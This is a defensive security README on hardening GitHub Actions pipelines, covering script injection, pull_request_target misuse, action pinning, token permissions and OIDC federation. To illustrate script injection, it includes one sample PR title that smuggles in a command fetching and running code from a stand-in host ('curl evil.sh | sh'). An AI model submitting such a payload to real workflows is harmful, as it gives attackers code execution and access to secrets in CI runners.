

[← Code security](../README.md)

# Pipeline security

The CI pipeline holds every secret you have and can publish straight to production. It is
routinely the least examined system in the organisation.

Tools covered: [`zizmor`](zizmor/README.md)

## Contents

1. [The pipeline is an attack surface](#1-the-pipeline-is-an-attack-surface)
2. [The specific ways GitHub Actions workflows go wrong](#2-the-specific-ways-github-actions-workflows-go-wrong)
   - [Script injection from untrusted input](#script-injection-from-untrusted-input)
   - [pull_request_target](#pull_request_target)
   - [Unpinned actions](#unpinned-actions)
   - [Over-permissive tokens](#over-permissive-tokens)
   - [Self-hosted runners on public repositories](#self-hosted-runners-on-public-repositories)
3. [Static credentials, and how to stop having them](#3-static-credentials-and-how-to-stop-having-them)
4. [Decision tree](#4-decision-tree)
5. [Anti-patterns](#5-anti-patterns)
6. [How this applies to pikakube](#6-how-this-applies-to-pikakube)

---

## 1. The pipeline is an attack surface

List what a typical CI job can do:

- read every secret configured for the repository or the organisation
- assume a cloud role, often with more permissions than any human has
- push images to the registry that production pulls from
- **sign** those images, if signing keys live in CI
- commit to the repository, create releases, publish packages
- reach internal networks, if the runner is self-hosted

Now list how often anyone reviews the workflow files with that in mind. That gap is the entire
subject of this folder.

> **Compromising the pipeline is strictly better for an attacker than compromising the
> application.** The application runs with the permissions of one service. The pipeline can
> publish a new version of any of them.

This is not theoretical. SolarWinds, Codecov and the repeated npm and GitHub Action compromises
all followed this shape: get into the build, and everything built afterwards carries your payload
with a legitimate signature.

The related material sits in two other places: `security/0-governance/runner-hardening/` for the
runners themselves, and `security/0-governance/supply-chain/` for provenance and signing of what
they produce. This folder is about the **workflow definitions**.

## 2. The specific ways GitHub Actions workflows go wrong

### Script injection from untrusted input

The most common serious flaw, and it looks harmless:

```yaml
- run: echo "Reviewing PR: ${{ github.event.pull_request.title }}"
```

`${{ }}` is interpolated **into the shell script before it runs**. A pull request titled
`"; curl evil.sh | sh; #` becomes shell code. Anyone who can open a pull request — which on a
public repository is anyone — gets code execution in your runner.

The untrusted fields are more numerous than people expect: PR titles and bodies, issue titles and
bodies, comment bodies, branch names, commit messages, author names, review bodies.

The fix is to pass them through the environment instead of interpolating them into the script:

```yaml
- env:
    TITLE: ${{ github.event.pull_request.title }}
  run: echo "Reviewing PR: $TITLE"
```

The value is then data, not code.

### pull_request_target

`pull_request` runs without secrets and without write access — deliberately, because it may run
code from a fork. `pull_request_target` runs **with** secrets and write access, in the context of
the base repository.

Combining `pull_request_target` with a checkout of the pull request's head is the canonical
critical misconfiguration: it executes an untrusted contributor's code with full access to your
secrets. There are legitimate uses of `pull_request_target` — labelling, commenting — but none of
them involve checking out and running the PR's code.

### Unpinned actions

```yaml
uses: some/action@v3          # a mutable tag
uses: some/action@main        # worse
uses: some/action@a1b2c3d...  # a commit SHA — immutable
```

A tag can be repointed by whoever controls the action's repository, and if that account is
compromised your workflow silently starts running different code. Several real incidents have
worked exactly this way.

Pinning to a full commit SHA is the control. The readability cost is solved by a trailing version
comment (`# v4.2.1`), which Renovate also uses to keep the pin updated.

### Over-permissive tokens

`GITHUB_TOKEN` defaults can be broad, and organisations often leave them at `write-all`. A job
that reads one file does not need permission to push commits, create releases and publish
packages.

Declare the minimum at the workflow level and widen only per job:

```yaml
permissions:
  contents: read
```

### Self-hosted runners on public repositories

A public repository with self-hosted runners means anyone can open a pull request that executes
code on your infrastructure. Unless the runners are ephemeral and isolated, this is remote code
execution on your network, by design.

## 3. Static credentials, and how to stop having them

Most pipeline secrets exist because someone needed to authenticate to a cloud provider or a
registry. The modern answer removes them entirely:

| Instead of | Use |
|---|---|
| An AWS access key in a secret | **OIDC federation** — the workflow presents its identity token and assumes a role. No stored credential |
| A personal access token as a bot | a **GitHub App** with scoped permissions and a short-lived token |
| A long-lived signing key | **keyless signing** with Fulcio and Rekor — see [`../../3-container/admission/README.md`](../../3-container/admission/README.md) |
| A registry password | OIDC, or the registry's native workload identity |

Every one of these converts "a credential that can leak" into "an identity that expires in
minutes". It also removes an entire class of finding from
[`../secret-scanner/README.md`](../secret-scanner/README.md), which is the cheapest possible fix
for that problem.

## 4. Decision tree



## 5. Anti-patterns

| Anti-pattern | Why it is bad | What to do instead |
|---|---|---|
| `${{ github.event.* }}` inside a `run:` block | untrusted input becomes shell code; anyone who can open a PR gets execution | pass through `env:` and reference the variable |
| `pull_request_target` plus a checkout of the PR head | executes a stranger's code with your secrets | `pull_request`, which has neither |
| Actions referenced by tag or branch | mutable; a compromised action changes under you | pin to a full commit SHA |
| `permissions: write-all`, or leaving the default | every job can push, release and publish | least privilege per workflow and per job |
| Static cloud keys in repository secrets | a long-lived credential that leaks, and that nobody rotates | OIDC federation |
| A personal access token as the automation identity | carries a human's access and dies with the human | a GitHub App |
| Self-hosted runners on a public repository | anyone can run code on your network | ephemeral, isolated runners, or GitHub-hosted |
| Secrets passed to third-party actions without thought | that action now has them, forever, in whatever version you pinned | audit which actions receive secrets, and pin them |
| Treating workflow files as configuration, not code | they are the most privileged programs in the repository | review them like production code |

## 6. How this applies to pikakube

There is exactly one workflow committed in this tree —
`dependency/renovate/renovate.yaml` — and it is a good example rather than a problem. Reading it
against section 2:

| Check | Status in that workflow |
|---|---|
| Script injection | no `github.event` interpolation in any `run:` block |
| `pull_request_target` | not used; it is `schedule`-triggered |
| Action pinning | **every `uses:` is a full commit SHA** with a trailing version comment |
| Permissions | `permissions: contents: read` declared at the top level |
| Identity | a **GitHub App** token via `actions/create-github-app-token`, not a PAT |
| Runner | `dataops-actions-runner`, self-hosted — fine for a private repository, and the thing to reconsider if this repository ever becomes public |

That is close to the target state, which makes the real finding a different one: **this workflow
is not the only one that will ever exist here**, and the discipline it demonstrates is currently
carried by whoever wrote it rather than by a check. Adding [`zizmor`](zizmor/README.md) to CI is a
single step that makes the standard enforceable instead of cultural.

The two adjacent gaps worth naming: the self-hosted runner is in scope for
`security/0-governance/runner-hardening/`, and the credentials the runner can reach are in scope
for [`../secret-scanner/README.md`](../secret-scanner/README.md) section 5 — OIDC federation
removes them rather than protecting them.

---

[← Code security](../README.md)
